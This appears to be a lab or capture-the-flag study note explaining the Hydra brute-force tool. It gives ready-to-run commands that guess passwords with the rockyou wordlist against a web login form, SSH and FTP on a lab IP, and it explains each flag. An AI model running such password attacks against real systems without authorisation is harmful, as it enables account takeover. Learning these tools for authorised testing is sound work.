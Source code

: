 
## 🔹 Concrete Example
```
hydra -l admin -P rockyou.txt 10.201.1.164 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```
### Breakdown:
- `-l admin` → username is `admin`
- `-P rockyou.txt` → common password wordlist
- `10.201.1.164` → target IP
- `http-post-form` → we are attacking a POST form
- `/:username=^USER^&password=^PASS^:F=incorrect`
  - `/` → login page is just the root `/`
  - `username=^USER^` → Hydra replaces `^USER^` with `admin`
  - `password=^PASS^` → Hydra replaces `^PASS^` with passwords from list
  - `F=incorrect` → if "incorrect" is found in response → login failed
- `-V` → show detailed attempt logs

👉 Hydra will try to login at `http://10.201.1.164/` with username `admin` and every password in `rockyou.txt`.  
👉 If the response **does not contain "incorrect"**, that means **login successful! ✅**



## 🔹 Quick Comparison

| Protocol | Example Hydra Command |
|----------|------------------------|
| **FTP** | `hydra -l user -P passlist.txt ftp://10.201.1.164` |
| **SSH** | `hydra -l root -P passwords.txt 10.201.1.164 -t 4 ssh` |
| **Web Form (POST)** | `hydra -l admin -P rockyou.txt 10.201.1.164 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V` |



## 🔹 Summary
- Hydra works differently depending on **protocol** (SSH, FTP, Web Form, etc.).
- Always need:
  - Username (`-l`)
  - Password list (`-P`)
  - Target IP
  - Protocol (ssh, ftp, http-post-form, etc.)
- Extra options (`-t`, `-V`) make it faster or more detailed.

---
# Hydra Task

## 🔹 What is Hydra?
Hydra is a very powerful password-cracking tool used to brute force login services (like SSH, HTTP, FTP, etc.).  
It works by trying multiple username-password combinations until it finds the correct one.
